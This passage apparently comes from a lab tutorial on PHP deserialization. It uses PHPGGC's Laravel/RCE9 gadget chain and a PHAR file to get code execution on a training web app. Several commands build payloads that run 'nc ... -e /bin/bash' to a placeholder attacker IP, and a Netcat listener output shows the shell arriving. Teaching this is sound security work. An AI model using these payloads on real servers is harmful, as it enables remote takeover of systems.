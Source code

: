 The version of Laravel used by `HTBank GmbH` is `8.83.25`, so `Laravel/RCE9` should work just fine. We can see that the `Type` of this gadget chain is `RCE (Function call)`. This means we need to specify a PHP function (and its arguments) that the gadget chain should call for us.

To get a reverse shell, we want to call the PHP function `system()` with the argument `'nc -nv <ATTACKER_IP> 9999 -e /bin/bash'`, and so we get the following command (with the `-b` flag to get Base64 encoded output):

```shell
phpggc Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -b
Tzo0MDoiSWxsdW1pbmF0ZVxCcm9hZGNhc3RpbmdcUGVuZGluZ0Jyb2...SNIP...Jhc2giO319

```

We can start a Netcat listener, and after importing the Base64 string from PHPGGC into the web application, we should get a reverse shell:

```shell
nc -nvlp 9999

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 172.20.0.4.
Ncat: Connection from 172.20.0.4:39924.
ls -l
total 12
drwxr-xr-x 2 sammy sammy 4096 Oct  8 22:47 css
-rw-r--r-- 1 sammy sammy    0 Sep 20 13:19 favicon.ico
-rw-r--r-- 1 sammy sammy 1710 Sep 20 13:19 index.php
-rw-r--r-- 1 sammy sammy   24 Sep 20 13:19 robots.txt

```

Note: This payload generated from `PHPGGC` works, but results in a `500: Server Error` whereas our custom payload did not. This is because `PHPGGC` does not generate a valid `UserSettings` object. If our only goal is to get RCE, this doesn't matter, however.

## PHAR(GGC)

Quoting from PHPGGC's GitHub README.md: "At BlackHat US 2018, @s\_n\_t released PHARGGC, a fork of PHPGGC which, instead of building a serialized payload, builds a whole PHAR file. This PHAR file contains serialized data and, as such, can be used for various exploitation techniques (file\_exists, fopen, etc.)." The fork has since been merged into PHPGGC.

We can use PHPGGC to simplify exploiting the PHAR deserialization attack we covered in the previous section. Even better, we can use PHPGGC's vast array of gadget chains, so we don't need to rely on the command injection vulnerability.

We can generate the payload like so:

```shell
phpggc -p phar Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -o exploit.phar

```
